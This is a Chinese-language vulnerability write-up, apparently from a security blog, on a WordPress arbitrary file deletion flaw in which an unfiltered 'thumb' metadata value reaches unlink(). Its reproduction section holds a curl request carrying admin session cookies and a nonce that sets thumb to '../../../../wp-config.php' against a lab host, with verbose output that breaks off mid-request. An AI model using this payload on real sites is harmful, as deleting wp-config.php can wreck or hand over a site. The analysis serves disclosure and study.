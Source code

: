 漏洞代码触发点在`wp-includes/post.php`文件。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-6-27/91545652.jpg)

 在上面显示的`wp_delete_attachement()`函数中，`$ meta ['thumb']`的内容在未经任何过滤的情况下用于unlink()调用。这段代码的目的是在删除图像的同时删除图像的缩略图。在Wordpress中通过媒体管理器上传的图像被表示为附属类型的帖子。值$ meta ['thumb']从数据库中检索，并保存为表示图像的文章的自定义字段。因此，在从数据库中检索到危险函数调用unlink()之间，表示缩略图文件名的值不会进行任何清理或检查。

如果该值在保存到数据库之前也没有经过任何或其他的安全措施，将在下一段代码中看到这种情况，会造成任意文件删除漏洞。

`/wp-admin/post.php`文件：

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-6-27/81545083.jpg)

在`/wp-admin/post.php`代码中，表示属于附件的缩略图的文件名如何保存到数据库。

在从`$ _POST ['thumb']`参数中的用户输入检索并通过`wp_update_attachment_metadata()`函数保存到数据库之间，没有适当的安全措施来确保该值真正代表正在编辑的附件的缩略图。

`$ _POST ['thumb']`的值可以将任何文件的路径保存到`WordPress`上传目录相对路径中，当附件被删除时，该文件将被删除，如第一列表中所示。

## 漏洞复现

登陆后台，在上传图片处。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-6-28/38508483.jpg)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-6-28/94878995.jpg)

然后 edit。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-6-28/17223918.jpg)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-6-28/19265580.jpg)

setThumbToConfig('5','15674852ce')

15674852ce

wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704

MacBook-Pro:pen_doc lebor$ curl -v 'http://192.168.2.153/wordpress496/wp-admin/post.php?post=5' -H 'Cookie:wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704' -d 'action=editattachment&_wpnonce=15674852ce&thumb=../../../../wp-config.php'  
*   Trying 192.168.2.153...  
*   TCP_NODELAY set  
*   Connected to 192.168.2.153 (192.168.2.153) port 80 (#0)  
> POST /wordpress496/wp-admin/post.php?post=5 HTTP/1.1  
> Host: 192.168.2.153  
> User-Agent: curl/7.54.0  
> Accept: */*  
> Cookie:wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704  
> Content-Length: 73  
> Content-Type: application/x-www-form-urlencoded  
>